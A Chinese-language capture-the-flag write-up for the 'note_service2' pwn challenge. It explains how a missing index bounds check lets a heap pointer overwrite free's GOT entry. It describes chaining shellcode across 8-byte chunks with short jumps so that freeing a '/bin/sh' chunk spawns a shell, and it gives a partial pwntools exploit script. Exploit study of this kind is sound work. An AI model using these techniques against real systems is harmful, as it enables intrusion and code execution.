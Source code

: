 首先看到add_note函数，可以看见<font color=#FF0000> 没有对v1进行边界检查，所以可以直接写到got表去</font>。在这里我们选择覆盖掉free的got表进行execve调用。

**具体思路是使用addnote功能写入shellcode，以及使用addnote覆盖掉free的got表，使得我们在最后选择deletenote的功能时，可以直接变成调用我们的shellcode**

**因为malloc()返回的是堆的地址，而got表里存的是指向某函数的地址，所以当取合适的index将malloc(result)返回的堆地址写入free的got表时，在之后调用free函数时就等于指向那个堆上的函数，就会去执行那个堆上的shellcode**

**因为在调用free(heapaddr)函数时会把要释放的堆的地址放进rdi中，根据这个性质，我们在要释放的堆里放`/bin/sh`,对这个堆调用free，字符串地址直接就进入rdi，很方便就设置好了execve要用的rdi参数，又因为调用了被修改了got表的free，此时等于在执行我们已经控好的一个堆块里的shellcode，这些shellcode负责设置rax，rdx并进行syscall**

1. 获得index：可以从`qword_2020A0[v1] = malloc(result);`看出`qword_2020A0`就是heap的起点。而python里可以很容易得到free函数在got表里的地址，所以free函数got表地址相对于heap的index也很容易计算：	

   ```python
   heap_addr=0x2020A0
   got_index=(elf.got['free']-heap_addr)/8
   ```

**还需要注意的是，add_note函数中对v2即size有检查，最大是8，也就是说我们需要好几个块才能放下所有的shellcode，此时需要在每个堆的自己的shellcode后加上无条件跳转（相对目标操作数）的形式跳到下一个堆块上的shellcode继续执行**

对于机器码而言，需要知道`\x90`代表nop指令，用于填充字节；`\xeb`代表8位相对短跳转；（`\xe9`代表16/32位相对短跳转）（x位相对短跳转的意思是相对偏移的字节数是x位的）

**在本题中，addnote的size只能选择1-8，根据堆的性质可以知道每个堆都申请了0x20的大小且连续，如果使用`\xeb`跳转，后面是一个8bits的偏移，写脚本的时候每次组合成7字节进行sendline（最后一个字节是0a即\n)，所以偏移是0x20-0x7=`0x19`;同理若使用`\xe9`跳转，本处代表32位跳转，偏移是`0x16`。**

*jmp指令的相对跳转是rip加相对字节偏移数，rip存的是jmp自己这条指令的下面一条的地址

附：汇编指令机器码对应表

```python
#coding:utf-8
from pwn import *
context.update(arch = 'amd64')
local =1
if local:
	io=process("./note_service2")
	pid=io.pid
else:
	io=remote("111.198.29.45",37647)
	pid=0
context.log_level = 'debug'
 
elf = ELF('./note_service2') 
heap_addr=0x2020A0
got_index=(elf.got['free']-heap_addr)/8
 
def add(index,content):
	io.recvuntil('your choice>> ')
	io.sendline("1")
	io.recvuntil("index:")
	io.sendline(str(index))
	io.recvuntil("size:")
	io.sendline('8')
	io.recvuntil("content:")
	io.sendline(content)
 
def dele(index):
	io.recvuntil('your choice>> ')
	io.sendline("4")
	io.recvuntil("index:")
	io.sendline(str(index))
def debug():
    log.debug("process pid:%d"%pid)
    pause()
debug()
```